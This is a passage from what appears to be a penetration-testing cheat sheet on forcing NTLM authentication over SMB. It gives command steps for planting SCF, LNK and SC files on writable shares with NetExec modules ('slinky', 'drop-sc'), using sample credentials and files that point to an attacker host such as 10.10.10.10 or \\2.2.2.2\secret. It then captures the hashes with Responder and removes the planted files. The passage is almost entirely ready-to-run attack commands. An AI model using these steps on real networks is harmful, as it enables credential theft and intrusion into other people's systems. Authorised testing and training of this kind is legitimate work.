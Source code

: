 {% tab title="3. Transfer" %}
```bash
sudo cp example.scf SMB/Users/WritableDir
```
{% endtab %}
{% endtabs %}

#### LNK

{% tabs %}
{% tab title="1. Uploiad LNK" %}
{% code overflow="wrap" %}
```bash
nxc smb 172.16.10.3 -u user1 -p user1_pass -M slinky -o SERVER=10.10.10.10 NAME=README
```
{% endcode %}
{% endtab %}

{% tab title="2. Listen" %}
```bash
sudo responder -I tun0
```
{% endtab %}

{% tab title="3. Clean" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>nxc smb 172.16.10.3 -u user1 -p user1_pass -M slinky -o NAME=README CLEANUP=YES
</strong></code></pre>
{% endtab %}
{% endtabs %}

#### SC

Similar to [LNK](smb-139-445.md#lnk), but the URL needs to be escaped with `\\` and by default it writes the file `Documents` in all writable shares.

{% tabs %}
{% tab title="1. Uploiad SC" %}
{% code overflow="wrap" %}
```bash
nxc smb 172.16.10.3 -u user1 -p user1_pass -M drop-sc -o URL=\\\\2.2.2.2\\secret SHARE=share1 FILENAME=README
```
{% endcode %}
{% endtab %}

{% tab title="2. Listen" %}
```bash
sudo responder -I tun0
```
{% endtab %}

{% tab title="3. Clean" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>nxc smb 172.16.10.3 -u user1 -p user1_pass -M drop-sc -o CLEANUP=True FILENAME=README
</strong></code></pre>
{% endtab %}
{% endtabs %}

